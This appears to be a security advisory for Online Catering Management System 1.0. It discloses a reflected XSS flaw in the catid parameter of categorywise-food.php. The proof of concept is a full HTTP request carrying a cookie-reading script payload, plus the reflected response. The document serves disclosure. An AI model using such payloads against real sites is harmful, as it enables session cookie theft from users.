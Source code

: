 # online-catering-management-system-v1.0

## Auditor:
Devansh Dubey

## Description:
Reflected XSS in Online Catering Management System
Link: https://phpgurukul.com/online-catering-management-system-using-php-and-mysql/

Online Catering Management System 1.0 is vulnerable to Cross-site scripting (XSS) in /ocms/categorywise-food.php via catid parameter.

Vulnerable Endpoint - /ocms/categorywise-food.php via catid parameter.

## PoCs
Vulnerable URL: /index.php

### Request

GET /ocms/categorywise-food.php?catid=%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=s6qjv42g2ib2rvqinfgrkkgku8
Upgrade-Insecure-Requests: 1
Priority: u=0, i

### Response
---- snip ----
"><script>
alert(document.cookie)
</script>
---- snip ----

